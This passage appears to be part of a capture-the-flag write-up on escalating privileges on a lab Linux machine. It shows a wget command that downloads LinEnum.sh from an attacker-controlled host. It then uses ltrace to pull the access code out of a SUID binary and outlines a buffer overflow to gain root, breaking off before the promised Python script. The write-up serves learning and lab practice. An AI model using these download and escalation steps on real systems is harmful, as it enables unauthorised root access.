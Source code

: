 lets get LinEnum an be able to run it so that we can see available privsec of information

```sh
wget http://10.10.14.15:8000/LinEnum.sh
```

![](/Linux/Linux-Medium/Enterprise/Screenshots/LinEnum.png)

Running LinEnum reveals a lot of information about the system. An SUID binary exists at
`/bin/lcars`. Attempting to run the file requires an access code, which can be obtained by running

```sh
ltrace /bin/lcars
```

![](/Linux/Linux-Medium/Enterprise/Screenshots/overflow.png)

Playing around with the options reveals that 4 (Security) has a buffer overflow, which can be
exploited to gain root access. The payload is fairly simple to generate, however the environment
variables can cause a bit of confusion as it changes the addresses. To avoid that, run gdb with
env - gdb /bin/lcars and pass the payload with cat payload.txt | env - /bin/lcars. Also run unset
env LINES and unset env COLUMNS in both terminal and gdb

ll pull all that together into a really simple Python script:
